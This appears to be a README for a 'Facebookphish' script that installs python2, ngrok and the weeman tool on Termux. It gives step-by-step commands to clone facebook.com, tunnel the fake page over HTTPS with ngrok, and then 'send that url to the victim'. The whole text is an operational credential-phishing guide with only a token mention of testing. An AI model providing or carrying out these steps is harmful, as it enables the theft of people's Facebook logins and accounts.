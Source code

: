 # Facebookphish
Download tools and updates needed for a test of phishing Facebook accounts
All this can be done on termux
This python script download apt, python2, wget, git, ngrok, weeman

You need to have already installed python3 for make this work.

After everything is finished you need 2 sessions on termux

1. first session you need to go to weeman dir (cd weeman/) and type python2 weeman.py. Now type show to see instructions.

2. In the second session type ngrok http -bind-tls=true 8080 (choose your own port) and enter for start. (bind-tls is for https page) Now, ngrok give an url like xxxx.ngrok.io, copy that and paste in the session 1 for weeman. First type set url https://facebook.com and after that type the command set action_url here goes your ngrok url. And the last one, type set port and type the port you choose for ngrok before (8080 in my example). And thats all, now you will have working that server on your own pc and now just send that url to the victim.
